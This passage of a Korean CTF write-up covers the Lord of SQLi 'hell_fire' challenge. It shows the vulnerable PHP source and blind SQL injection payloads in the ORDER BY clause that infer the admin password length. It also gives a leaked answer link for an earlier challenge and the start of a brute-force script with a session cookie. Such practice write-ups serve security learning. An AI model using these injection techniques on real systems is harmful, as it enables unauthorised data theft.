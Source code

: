   ```python
              break
  ```
* [정답](https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php?pw=5a2f5d3c)

23-hell-fire
====
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|proc|union/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_hell_fire where 1 order by {$_GET[order]}";
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysqli_query($db,$query);
  while(($result = mysqli_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_hell_fire where id='admin' and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("hell_fire");
  highlight_file(__FILE__);
?>
```
### 둘러보기
* query ?order=*n*를 넣어주면 *n*번째 column으로 정렬된다.
  * 1, 2, 3을 넣어볼 수 있는데 1일때와 3일때 정렬 순서가 다르다. (admin과 rubiya의 값이 서로 다르다)
### IF 문 사용하기
* order by 1과 order by 3의 결과가 다른 것을 이용해, 다음의 query를 넣어주었더니 결과가 서로 달랐다.
  * ?order=IF(id=%27ad%27, 1, 3)
    * 결과 값에 id로 'ad'를 가지는 열이 없었기 때문에, 3번째 attr을 기준으로 정렬되었다
  * ?order=IF(id=%27admin%27, 1, 3)
    * 결과 값에 id로 'admin'을 가지는 열이 있었기 때문에, 1번째 attr을 기준으로 정렬되었다
* 왜이렇게 되는지 정확한 과정은 모르겠지만, 풀이에 활용할 수 있었다.
  * ?order=IF(id='admin' and length(pw)>1, 1, 3)
  * 위 쿼리의 length(pw) 옆의 상수 값을 수정하며 pw의 length를 짐작했다.
    * length(pw)=28이 나왔다
### pw guessing
* 다음의 코드를 사용하였다
    ```python
    import urllib.request
    import requests
    
    url='https://los.rubiya.kr/chall/hell_fire_309d5f471fbdd4722d221835380bb805.php'
    headers = { 'Cookie': 'PHPSESSID=mgh66e47p2g12f7tccsgq9p8rn' }
    pw=""
    